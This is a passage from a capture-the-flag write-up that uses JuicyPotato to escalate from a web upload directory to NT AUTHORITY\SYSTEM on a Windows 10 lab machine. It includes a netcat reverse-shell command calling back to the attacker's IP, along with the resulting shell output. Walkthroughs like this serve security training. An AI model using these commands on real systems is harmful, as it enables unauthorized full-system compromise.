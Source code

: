 
Running `whoami /priv`, we see that the rights for the user will allow us to use the RottenPotato exploit to elevate to NT AUTORITY/SYSTEM.

We need to pick the appropriat CLSID for our OS so first we'll check which Windows version is running:

```
C:\inetpub\wwwroot\upload>systeminfo
systeminfo

Host Name:                 CONCEAL
OS Name:                   Microsoft Windows 10 Enterprise
OS Version:                10.0.15063 N/A Build 15063
```

Next, we check the [https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md](https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md) site for a list of CLSID for the OS.

We'll use `{8BC3F05E-D86B-11D0-A075-00C04FB68820}`, for no particular reason then execute JuicyPotato and run another netcat to spawn a new reverse shell for us.

```
C:\inetpub\wwwroot\upload>juicypotato.exe -l 1234 -p nc.exe -a "-e cmd.exe 10.10.14.23 443" -t * -c {8BC3F05E-D86B-11D0-A075-00C04FB68820}
juicypotato.exe -l 1234 -p nc.exe -a "-e cmd.exe 10.10.14.23 443" -t * -c {8BC3F05E-D86B-11D0-A075-00C04FB68820}
Testing {8BC3F05E-D86B-11D0-A075-00C04FB68820} 1234
......
[+] authresult 0
{8BC3F05E-D86B-11D0-A075-00C04FB68820};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

C:\inetpub\wwwroot\upload>
```

And... we get a shell back as `NT AUTHORITY\SYSTEM`:

```
# nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.116] 49709
Microsoft Windows [Version 10.0.15063]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>type c:\users\administrator\desktop\proof.txt
type c:\users\administrator\desktop\proof.txt
5737DD...
```